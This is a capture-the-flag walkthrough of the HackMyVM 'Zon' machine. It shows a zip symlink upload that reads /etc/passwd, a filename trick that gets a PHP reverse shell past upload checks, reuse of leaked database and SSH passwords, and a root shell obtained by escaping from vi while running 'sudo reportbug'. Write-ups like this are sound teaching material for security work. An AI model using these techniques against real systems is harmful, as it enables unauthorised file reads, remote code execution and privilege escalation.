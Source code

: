 ```yaml
---
title: HackMyVM - Zon
date: 2024-02-01
tags: ZIP ZIP-Upload file-upload
author: raylex
---
```

## Enumeration
### 80 - Apache HTTP
Directory fuzzing reveals some interesting files and directories
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ cat fuzz/fuzz
/js                   (Status: 301) [Size: 309] [--> http://192.168.58.38/js/]
/index.php            (Status: 200) [Size: 29170]
/css                  (Status: 301) [Size: 310] [--> http://192.168.58.38/css/]
/images               (Status: 301) [Size: 313] [--> http://192.168.58.38/images/]
/contact.php          (Status: 200) [Size: 11753]
/report.php           (Status: 200) [Size: 13]
/blog.php             (Status: 200) [Size: 12490]
/uploads              (Status: 301) [Size: 314] [--> http://192.168.58.38/uploads/]
/upload.php           (Status: 500) [Size: 0]
/about.php            (Status: 200) [Size: 10538]
/service.php          (Status: 200) [Size: 12239]
/.                    (Status: 200) [Size: 29170]
/fonts                (Status: 301) [Size: 312] [--> http://192.168.58.38/fonts/]
/icon                 (Status: 301) [Size: 311] [--> http://192.168.58.38/icon/]
/testimonial.php      (Status: 200) [Size: 17014]
/choose.php           (Status: 200) [Size: 1908]
```
Zip files containing `.jpeg` images are accepted by the `choose.php` page, which also extracts the image and stores it in the `/uploads` directory.  
I'll use the symlink method to read files from the target
- Symlink `/etc/passwd` to `test.jpeg`
```
ln -s /etc/passwd ./test.jpeg
```
- Create malicious zip
```
zip -r file.zip test.jpeg --symlink
```
- Upload malicious zip
- Download the test.jpeg from the target
```
wget http://192.168.58.38/uploads/test.jpeg
```
- Extract the strings in the file
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ strings test.jpeg
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:103:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mysql:x:104:112:MySQL Server,,,:/nonexistent:/bin/false
Debian-snmp:x:105:113::/var/lib/snmp:/bin/false
freddie:x:1000:1000:,,,:/home/freddie:/bin/zsh
```
#### File read
Now that i can read local files, I'll modify a script [[Zon#^read]] 0xdf made in [HTB: Zipping | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/01/13/htb-zipping.html) so i don't have to symlink,zip and upload every time i want to view a file.  
The webapp's root directory is `/var/www/html`
- report.php
```php
<?php
$data = json_decode(file_get_contents('php://input'), true);
// Temporary random value for testing purposes only
$randomValue = rand(999999, getrandmax());
if ($data['shortSeq'] != $randomValue) {
    die("Access denied");
echo "Authorized access";
shell_exec('./hashDB.sh');
```
- hashDB.sh ^mysql
```shell
#!/bin/bash
# script that checks the database's integrity every minute
dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"
/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
/usr/bin/sed -i '$d' "${dump}"
hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')
if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
```
> [!NOTE] MySQL Credential!
> User: admin
> Password: udgrJbFc6Av#U3
- upload.php
![[Pasted image 20240126180557.png]]
## Foothold
### Shell as www-data
Looking at the code can be tricked by zipping a file like `shell.jpeg .php`, the `awk '{print $4}'` command will print the 4th line, thereby omitting the ` .php` at the end.
![[Pasted image 20240127111811.png]]
This will result in a `return_var=0`, which is just what's needed for the actual unzipping part of the code to be processed.
![[Pasted image 20240127112018.png]]
Now i'll upload my malicious zip file which should pass all checks and drop `shell.jpeg .php` in the `uploads` directory which results in RCE
![[Pasted image 20240127112610.png]]
I'll upload pentest-monkey's php reverse shell and get shell as `www-data`
![[Pasted image 20240127113807.png]]
- Stabilize the shell
### www-data -> freddie
Now that i have a stable shell, i''ll attempt to login to the [[Zon#^mysql]] db i saw earlier
![[Pasted image 20240127114424.png]]
I'll login as `fredie` via ssh and retrieve #user-flag 
```shell
╭─freddie@zon ~
╰─$ cat user.txt
a0b4603c7fde7e4113d2ee5fbee5a038
```

> [!NOTE] SSH Credential
> Username: freddie
> Password: LDVK@dYiEa2I1lnjrEeoMif
## Privilege Escalation 
Sudo commands run really slow cause hostname `zon` isn't in the `/etc/hosts` file
Listing sudoers reveals user `freddie` may run `/usr/bin/reportbug` as `root`
```shell
sudo: unable to resolve host zon: Name or service not known
Matching Defaults entries for freddie on zon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User freddie may run the following commands on zon:
    (ALL : ALL) NOPASSWD: /usr/bin/reportbug
```
The program is a debian bug report tool written in python  
Since it's a bug report tool running as root, i'm just going to guess is uses vim editor for bug writing submissions. Searching `/usr/bin/reportbug editor` confirms this
![[Pasted image 20240127123231.png]]
Now i just have to find a way to the editor
### freddie -> root
After briefly going through the documentation, i'll attempt to submit a report
```
sudo /usr/bin/reportbug
```
...and go on with the configuration
- select any operating mode - normal
- select internet option - n
- enter name - root
- enter an email - root@zon.local
- no transport agent
- no proxy
- `y` to continue as root
- enter `other` or any program name - `apt`
- enter a subject for the report
- select any severity
- it should now request for the editor, select Vi (if not specified using `-e`)
- enter the command `:!/bin/bash`
and a shell will be spawned as the `root` user
![[Pasted image 20240127170554.png]]
Retrieve the #root-flag 
```shell
root@zon:~# cat /root/root.txt
18a72aa09ce61fb487fd6745c8eba769
```